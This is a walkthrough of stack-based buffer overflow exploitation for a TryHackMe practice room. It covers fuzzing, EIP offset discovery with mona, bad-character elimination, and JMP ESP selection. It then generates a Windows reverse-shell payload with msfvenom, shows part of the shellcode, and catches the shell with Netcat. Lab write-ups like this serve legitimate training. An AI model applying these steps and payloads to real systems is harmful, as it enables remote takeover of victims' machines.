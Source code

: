 # Stack Based Buffer Overflow Walkthrough
I will be using `Tib3rius's Buffer Overflow Prep on TryHackMe` for practise.
Link to room: https://tryhackme.com/room/bufferoverflowprep

## Mona Configuration
Run the following command on Immunity Debugger to make the process easier:
```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing
1. Open the application you are targetting on Immunity Debugger and hit start
2. Run `fuzzer.py` to identify the point that causes the application to crash
3. Note down the crash point of the application

## Offset
To identify the offset to the EIP address, we can generate a string with the pattern_create module from Metasploit.
Add 40 to the crash point found. 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash point + 40]
```
Copy the output and place it in the payload variable of `exploit.py`. Run the script and it should crash the application again.
Change the distance to the same length of the pattern you created and run the command on Immunity Debugger:
```
!mona findmsp -distance  [crash point + 40]
```
Mona will display the output of the command, or click "Window" menu and then "Log data" to view it.
Find a line that states `EIP contains normal pattern : ... (offset XXXX)`
Note down the offset and make the following changes to `exploit.py` script:
1. Update the offset variable
2. Set the payload variable to an empty string
3. Set the retn variable to `BBBB`

Restart the application in Immunity Debugger and run the modified script.
The EIP register should now be overwritten with B's: `42424242`

## Finding Bad Characters
Using Mona, we can generate a byte array and exclude the null byte,`\x00`, by default.
```
!mona bytearray -b "\x00"
```
Execute badchars.py to generate a string of bad chars from `\x01 to \xff`. Update `exploit.py` and set the payload variable to the string created.
Restart the application in Immunity Debugger and run the script again. Copy the address to which the ESP register points and use it in the following command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A mona Memory comparison results window will appear indicating the characters that are different in memory to what they are in the generated `bytearray.bin` file.
Not all of these might be bad characters as sometimes:
1. Bad characters cause the next byte to get corrupted
2. Bad characters cause the rest of the string to get corrupted

Make a note of the bad characters and do the following:
1. Generate a new byte array in mona, specifying these new bad characters along with `\x00`
2. Remove the new bad characters in the payload variable in exploit.py

Restart the application in Immunity Debugger and run the script again. Repeat the process until the results status returns `Unmodified`. This indicates that there are no more bad characters.

## Finding a JMP point

Run the following command in Immunity Debugger with the application running or in a crashed state.
Ensure that all the bad characters identified are added in.
```
!mona jmp -r esp -cpb "\x00"
```
The results should display in the 'Log data' window. Choose an address and update it in `exploit.py` by setting the `retn` variable to the address written backwards.
For example, if the address found is `\x01\x02\x03\x04`, write `\x04\x03\x02\x01` in `exploit.py`.

## Generate a Payload
We can finally generate our shellcode excluding the bad characters found:
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
Insert the string added to the payload variable in `exploit.py` in the following format:
```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
Ensure to place an open bracket at the start, and a close bracket at the end.

## Prepend NOPs
An encoder was used to generate the payload. Thus, some space in memory is needed for the payload to unpack itself. Ensure this happens by assigning the following string to the padding variable:
```
padding = "\x90" * 16
```

## Exploit
1. Start a Netcat listener on Kali
2. Restart the application in Immunity Debugger
3. Run `exploit.py`

You should catch a reverse shell!